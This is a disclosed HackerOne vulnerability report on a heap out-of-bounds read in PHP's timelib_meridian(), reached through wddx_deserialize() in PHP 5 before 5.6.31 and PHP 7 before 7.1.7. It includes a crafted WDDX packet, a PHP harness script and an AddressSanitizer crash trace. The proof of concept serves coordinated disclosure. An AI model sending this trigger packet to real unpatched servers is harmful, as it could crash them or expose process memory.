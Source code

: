 # PHP WDDX Deserialization Heap OOB Read in timelib_meridian()

## Report Details
- **Report ID**: 248659
- **URL**: https://hackerone.com/reports/248659
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-12T10:27:57.453Z
- **Disclosed**: 2019-10-14T04:38:45.724Z

## Reporter
- **Username**: xixabangm4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
###Description:
While deserializing an invalid dateTime value, wddx_deserialize() would result in a heap out-of-bounds read in timelib_meridian(). As wddx_deserialize() is exposed to network data, and sometimes echo the results back to client, this issue could potentially allow remote peeking of the process memory. It should also affect other PHP APIs that make use of timelib_meridian().

###Impact:
Affects both PHP 5 before 5.6.31 ([ChangeLog](http://php.net/ChangeLog-5.php)) and PHP 7 before 7.1.7 ([ChangeLog](http://php.net/ChangeLog-7.php)).
Resolved PHP [bug report](https://bugs.php.net/bug.php?id=74819), will update the pending CVE.

###Reproduce:
Reproduced on both php-7.1.6 and php-5.6.30, tested on 32-bit builds, with ASAN enabled and USE_ZEND_ALLOC set to 0.

Configuration:
```
CC="`which gcc`" CFLAGS="-O0 -g -fsanitize=address" ./configure --prefix="`pwd`/../php7_wddx" --disable-shared --enable-wddx
```

The trigger wddx packet:
```
$ cat repro.wddx 
<?xml version='1.0'?>
<!DOCTYPE wddxPacket SYSTEM 'wddx_0100.dtd'>
<wddxPacket version='1.0'>
<header/>
	<data>
        	<struct>
                    <var name='aDateTime'>
                         <dateTime>I06.00am 0</dateTime>
                     </var>
                </struct>
	</data>
</wddxPacket>
```
PHP script:
```
$ cat wddx.php 
<?php
$argc = $_SERVER['argc'];
$argv = $_SERVER['argv'];

$dir_str = dirname(__FILE__);
$file_str = ($dir_str)."/".$argv[1];

if (!extension_loaded('wddx')) print "wddx not loaded.\n";

$wddx_str = file_get_contents($file_str);
print strlen($wddx_str) . " bytes read.\n";
var_dump(wddx_deserialize($wddx_str));
?>
```
Output:
```
$ export USE_ZEND_ALLOC=0

$ ../../php7_wddx/bin/php wddx.php repro.wddx 
307 bytes read.
=================================================================
==13293== ERROR: AddressSanitizer: heap-buffer-overflow on address 0xb57057fa at pc 0x809b0f4 bp 0xbfb9c788 sp 0xbfb9c77c
READ of size 1 at 0xb57057fa thread T0
    #0 0x809b0f3 in timelib_meridian /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:410
    #1 0x80af10b in scan /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:5230
    #2 0x80f3822 in timelib_strtotime /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:24098
    #3 0x806afbd in php_parse_date /home/weilei/php-7.1.6/ext/date/php_date.c:1455
    #4 0x8a2fea7 in php_wddx_process_data /home/weilei/php-7.1.6/ext/wddx/wddx.c:1075
    #5 0x8a4489a in _cdata_handler /home/weilei/php-7.1.6/ext/xml/compat.c:265
    #6 0xb5d0a6b5 in xmlParseCharData__internal_alias /home/weilei/libxml2/parser.c:4597
    #7 0xb5d5c9be in xmlParseTryOrFinish /home/weilei/libxml2/parser.c:11715
    #8 0xb5d64462 in xmlParseChunk__internal_alias /home/weilei/libxml2/parser.c:12454
    #9 0x8a46705 in php_XML_Parse /home/weilei/php-7.1.6/ext/xml/compat.c:600
    #10 0x8a30293 in php_wddx_deserialize_ex /home/weilei/php-7.1.6/ext/wddx/wddx.c:1109
    #11 0x8a32cb3 in zif_wddx_deserialize /home/weilei/php-7.1.6/ext/wddx/wddx.c:1327
    #12 0x8de0fb6 in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER /home/weilei/php-7.1.6/Zend/zend_vm_execute.h:675
    #13 0x8ddb38a in execute_ex /home/weilei/php-7.1.6/Zend/zend_vm_execute.h:429
    #14 0x8ddcaf0 in zend_execute /home/weilei/php-7.1.6/Zend/zend_vm_execute.h:474
    #15 0x8c35c00 in zend_execute_scripts /home/weilei/php-7.1.6/Zend/zend.c:1476
    #16 0x8a634e4 in php_execute_script /home/weilei/php-7.1.6/main/main.c:2537
    #17 0x90f9d1b in do_cli /home/weilei/php-7.1.6/sapi/cli/php_cli.c:993
    #18 0x90fc5f6 in main /home/weilei/php-7.1.6/sapi/cli/php_cli.c:1381
    #19 0xb5b03a82 (/lib/i386-linux-gnu/libc.so.6+0x19a82)
    #20 0x8065200 in _start (/home/weilei/php7_wddx/bin/php+0x8065200)
0xb57057fa is located 0 bytes to the right of 10-byte region [0xb57057f0,0xb57057fa)
allocated by thread T0 here:
    #0 0xb61b2854 (/usr/lib/i386-linux-gnu/libasan.so.0+0x16854)
    #1 0x8b76d40 in __zend_malloc /home/weilei/php-7.1.6/Zend/zend_alloc.c:2820
    #2 0x8b73e5f in _emalloc /home/weilei/php-7.1.6/Zend/zend_alloc.c:2413
    #3 0x8b74aaa in _safe_emalloc /home/weilei/php-7.1.6/Zend/zend_alloc.c:2472
    #4 0x8b75005 in _ecalloc /home/weilei/php-7.1.6/Zend/zend_alloc.c:2495
    #5 0x809b85c in timelib_string /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:460
    #6 0x80ae9dd in scan /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:5214
    #7 0x80f3822 in timelib_strtotime /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:24098
    #8 0x806afbd in php_parse_date /home/weilei/php-7.1.6/ext/date/php_date.c:1455
    #9 0x8a2fea7 in php_wddx_process_data /home/weilei/php-7.1.6/ext/wddx/wddx.c:1075
    #10 0x8a4489a in _cdata_handler /home/weilei/php-7.1.6/ext/xml/compat.c:265
    #11 0xb5d0a6b5 in xmlParseCharData__internal_alias /home/weilei/libxml2/parser.c:4597
    #12 0xb5d5c9be in xmlParseTryOrFinish /home/weilei/libxml2/parser.c:11715
    #13 0xb5d64462 in xmlParseChunk__internal_alias /home/weilei/libxml2/parser.c:12454
    #14 0x8a46705 in php_XML_Parse /home/weilei/php-7.1.6/ext/xml/compat.c:600
    #15 0x8a30293 in php_wddx_deserialize_ex /home/weilei/php-7.1.6/ext/wddx/wddx.c:1109
    #16 0x8a32cb3 in zif_wddx_deserialize /home/weilei/php-7.1.6/ext/wddx/wddx.c:1327
    #17 0x8de0fb6 in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER /home/weilei/php-7.1.6/Zend/zend_vm_execute.h:675
    #18 0x8ddb38a in execute_ex /home/weilei/php-7.1.6/Zend/zend_vm_execute.h:429
    #19 0x8ddcaf0 in zend_execute /home/weilei/php-7.1.6/Zend/zend_vm_execute.h:474
    #20 0x8c35c00 in zend_execute_scripts /home/weilei/php-7.1.6/Zend/zend.c:1476
    #21 0x8a634e4 in php_execute_script /home/weilei/php-7.1.6/main/main.c:2537
    #22 0x90f9d1b in do_cli /home/weilei/php-7.1.6/sapi/cli/php_cli.c:993
    #23 0x90fc5f6 in main /home/weilei/php-7.1.6/sapi/cli/php_cli.c:1381
    #24 0xb5b03a82 (/lib/i386-linux-gnu/libc.so.6+0x19a82)
SUMMARY: AddressSanitizer: heap-buffer-overflow /home/weilei/php-7.1.6/ext/date/lib/parse_date.c:410 timelib_meridian
Shadow bytes around the buggy address:
  0x36ae0aa0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0ab0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0ac0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0ad0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0ae0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
=>0x36ae0af0: fa fa fd fa fa fa fd fa fa fa fd fa fa fa 00[02]
  0x36ae0b00:fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0b10: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0b20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0b30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x36ae0b40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:     fa
  Heap righ redzone:     fb
  Freed Heap region:     fd
  Stack left redzone:    f1
  Stack mid redzone:     f2
  Stack right redzone:   f3
  Stack partial redzone: f4
  Stack after return:    f5
  Stack use after scope: f8
  Global redzone:        f9
  Global init order:     f6
  Poisoned by user:      f7
  ASan internal:         fe
==13293== ABORTING
Aborted

$ ../php7_wddx/bin/php --version
PHP 7.1.6 (cli) (built: Jun 27 2017 12:59:32) ( NTS )
Copyright (c) 1997-2017 The PHP Group
Zend Engine v3.1.0, Copyright (c) 1998-2017 Zend Technologies
```
Classified as a timelib issue, but not sure if can be triggered from other APIs other than wddx_deserialize().

## Attachments
No attachments
